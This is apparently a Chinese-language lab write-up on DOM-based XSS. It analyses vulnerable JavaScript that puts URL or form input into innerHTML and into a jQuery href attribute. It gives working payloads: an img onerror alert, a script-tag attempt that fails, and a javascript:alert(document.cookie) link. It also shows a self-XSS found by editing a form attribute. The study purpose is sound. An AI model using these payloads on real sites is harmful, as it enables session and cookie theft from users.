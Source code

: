 ### innerHTML 作为接收器

```js
// 访问 /?search=nihao

<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }

    var query = (new URLSearchParams(window.location.search)).get('search');
    
    if (query) {
        doSearchQuery(query);
    }
</script>    


// 获取 search 参数并将其填充到 searchMessage 标签的 textcontent 属性中。
```

![image-20250522170035745](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522170035745.png)

```
# payload：/?search=<img src=1 onerror=alert(1)>
```

![image-20250522170521030](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522170521030.png)

```
# payload：/?search=<script>alert(1)</script>
# 最终失败，失败原因：
<script> 标签应该在<html>、<head> 或 <body> 等合适的顶层标签内，而不是嵌套在像 <span> 这样的普通文本内容标签里 。浏览器解析 HTML 结构时，遇到这种不符合规范的嵌套，不会将其识别为有效的 JavaScript 代码块去执行。
```

![image-20250522170649795](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522170649795.png)

### 接收器为 jquery 库的 attr

```
# 访问 GET /feedback?returnPath=/，返回下图表单。且包含 submitFeedback.js 脚本文件。
```

![image-20250522171550611](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522171550611.png)

```js
// submitFeedback.js 脚本内容

// 获取 feedbackForm 表单的提交按钮，并监听，阻止常规提交操作，以 js 代码的逻辑进行提交。
document.getElementById("feedbackForm").addEventListener("submit", function(e) {
    submitFeedback(this.getAttribute("method"), this.getAttribute("action"), this.getAttribute("enctype"), this.getAttribute("personal"), new FormData(this));
    e.preventDefault();
});

// 以 js 代码的逻辑进行提交。
function submitFeedback(method, path, encoding, personal, data) {
    var XHR = new XMLHttpRequest();
    XHR.open(method, path);
    if (personal) {
        // 如果 form 表单的 personal 属性存在且为 1，则添加一个 load 的监听器。
        // load 事件：当请求完成（响应状态码为 200-299）或失败（404 或 500 等），触发 load 事件。
        XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));
    } else {
        XHR.addEventListener("load", displayFeedbackMessage());
    }
    // 发送请求包
    if (encoding === "multipart/form-data") {
        XHR.send(data)
    } else {
        var params = new URLSearchParams(data);
        XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        XHR.send(params.toString())
    }
}

// load 事件触发的函数。
function displayFeedbackMessage(name) {
    return function() {
        var feedbackResult = document.getElementById("feedbackResult");
        if (this.status === 200) {
            // 直接以 innerHTML 的方式输出提交的 name。
            feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
            feedbackForm.reset();
        } else {
            // 发送请求失败。
            feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
        }
    }
}

// 综上所述，我们只要将表单的 person 属性设置为 1，然后将 payload 写在提交的 name 参数中，那么 displayFeedbackMessage 函数就以 innerHTML 的格式输出 name 到页面上，触发 dom xss。
```

js 执行流程如下：

1. 设置表单的 person 为 true。
2. 将 name 参数传递给 displayFeedbackMessage 函数。
3. displayFeedbackMessage 函数将 name 回显在 feedbackResult 标签中。

所以，需要：

1. 让 person 为 true。
2. 提供 name 参数。

其实这个利用是失败的，因为

```
<form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded" > 表单里没有 personal 这个属性，但确实 js 处理了这个属性。

那我手动 f12 增加这个属性看看能不能导致 self-xss。
```

![image-20250522174545413](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522174545413.png)

name 处添加 payload。

![image-20250522174450048](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522174450048.png)

提交后确实存在 self-xss。 

![image-20250522174524108](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522174524108.png)

以上仅仅是我自己挖掘到一个 self-xss，然而这个靶场的真正利用如下：

```js
// url：/feedback?returnPath=nihao/
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});

// 文档就绪处理函数：$(function() { ... });
// 这是 jQuery 里的文档就绪处理函数。它的作用是，等到整个 HTML 文档加载完成并且 DOM 构建好之后，再去执行内部的代码。这能保证在操作 DOM 元素时，这些元素已经存在于页面中。

// DOM 元素选择：$('#backLink')，获取名为 backLink 的元素。$() 在 jquery 中是获取对象的意思。
// 属性设置：.attr("href", ...)，设置元素 href 属性。

// 总的来说就是，获取 returnPath 参数并填充到 backlink 的 herf 属性中。
// returnPath=nihao，结果如下：
```

![image-20250522172833037](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250522172833037.png)

```
# url：/feedback?returnPath=javascript:alert(document.cookie)/
```

